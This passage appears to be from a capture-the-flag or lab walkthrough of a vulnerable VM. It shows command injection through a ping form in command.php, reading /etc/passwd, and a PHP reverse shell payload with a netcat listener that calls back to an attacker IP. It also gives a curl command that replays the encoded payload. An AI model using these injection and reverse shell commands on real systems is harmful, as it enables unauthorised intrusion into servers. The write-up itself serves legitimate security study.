 
    --------------------------------
We got some nice result mostly the `/command.php` page.

### Command execution

The page let us ping an other machine in the network. Nevertheless the page name
let us think that we can use command exploitation. If we add a `;` in the filed
and a command it seems to works, for instance with `; ls` we got (I use
[burp](http://releases.portswigger.net/) for all my pentest, the output of the
command is in the response page):

    :::text
    command.php
    command.php.save
    command2.php.save
    command2.php.save.1
    low.php
    proc
    tails.php

We can also read `/etc/passwd`: there is two users on the server: acid and
saman.

Let us try to get a reverse shell with that.

### reverse shell

As always, a good source of information is
[pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

We know the site use php so we will try the php reverse shell first:

  * On the host we execute: `nc -l -p 6666`
  * On the target (via the ping interface) we query:
    `; php -r '$sock=fsockopen("192.168.0.13",6666);exec("/bin/sh -i <&3 >&3 2>&3");'`

It got us a shell on the machine (without tty/pty). But executing the request in the ping
interface each time we want the shell in painful, so I extract the curl command
from burp:

    :::text
    curl -i -s -k  -X 'POST' \
        -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:40.0) Gecko/20100101 Firefox/40.0' -H 'DNT: 1' -H 'Referer: http://192.168.0.18:33447/Challenge/Magic_Box/command.php' -H 'Content-Type: application/x-www-form-urlencoded' \
        -b 'sec_session_id=2cdjrm9k6khpfiilsad1kmnpj2' \
        --data-binary $'IP=%3B+php+-r+%27%24sock%3Dfsockopen%28%22192.168.0.13%22%2C6666%29%3Bexec%28%22%2Fbin%2Fsh+-i+%3C%263+%3E%263+2%3E%263%22%29%3B%27&submit=submit' \
        'http://192.168.0.18:33447/Challenge/Magic_Box/command.php'

Now that we have a shell, let us see what we can do.

## Shell exploitation
